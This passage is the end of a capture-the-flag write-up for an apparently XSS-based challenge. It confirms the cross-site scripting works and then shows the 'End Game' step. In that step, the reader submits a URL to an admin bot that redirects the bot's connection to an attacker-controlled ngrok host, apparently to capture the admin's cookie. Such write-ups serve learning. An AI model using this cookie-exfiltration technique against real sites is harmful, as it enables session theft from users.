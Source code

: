 ![image-20230112195902093](./assets/chatuwu-monitor2.png)

This proves we achieved XSS.  Our browser had no cookie so the `prize` query parameter was empty.

Now let's do it for real.

# End Game

Bring up the XSS Bot page and submit this URL:

```
http://47.254.28.30:58000/?room=DOMPurify&nickname=bot@e986-76-112-103-115.ngrok.io
```

![image-20230112200044089](./assets/chatuwu-xssbot1.png)

After submitting, you should see the page say:

```
[1/12/2023, 8:01:17 PM] Received. Admin will visit your URL soon.
```

Now, quickly go back to your browser tab for this URL:

https://e986-76-112-103-115.ngrok.io/?nickname=guest6642&room=DOMPurify
